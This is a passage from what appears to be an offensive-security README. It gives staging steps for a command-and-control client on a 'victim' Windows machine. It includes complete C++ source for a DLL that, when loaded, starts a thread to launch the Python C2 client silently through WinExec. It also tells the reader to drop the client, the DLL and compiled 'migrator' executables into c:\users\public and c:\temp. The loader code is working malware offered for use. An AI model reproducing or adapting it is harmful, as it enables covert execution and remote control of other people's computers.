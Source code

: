 - Make sure the C2 client is in the victim's `c:\users\public` directory.  This file: `c2client_part3.py`
- You'll also want to edit and compile this dll source code; adjust it accordingly.  Place it in the `c:\temp` folder.  I don't recall why I chose `temp` over `c:\users\public`, but there you have it.  

```c++
#include <windows.h>

DWORD WINAPI ThreadProc(LPVOID lpParam) {
    // Command to be executed by WinExec
	//You'll want to edit this to make sure the path lines up with your installation of python on the victim machine
	//or better yet, compile this to an exe so you don't have to reference the python path :)
    WinExec("c:\\users\\robbi\\AppData\\Local\\Programs\\Python\\Python313\\python.exe c:\\users\\public\\c2client_part3.py", 0);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH: {
        // Disable thread library calls to optimize performance
        DisableThreadLibraryCalls(hModule);

        // Create a new thread to run the command
        HANDLE hThread = CreateThread(
            NULL,       // default security attributes
            0,          // use default stack size
            ThreadProc, // thread function
            NULL,       // argument to thread function
            0,          // use default creation flags
            NULL);      // returns the thread identifier

        if (hThread) {
            // Close the thread handle as we don't need it anymore
            CloseHandle(hThread);
        }
        break;
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
- Next, open and compile the `migrator.sln` and `migrator2.sln` projects and move the compiled executables into the `c:\users\public` directory 😺


> **Server side code**
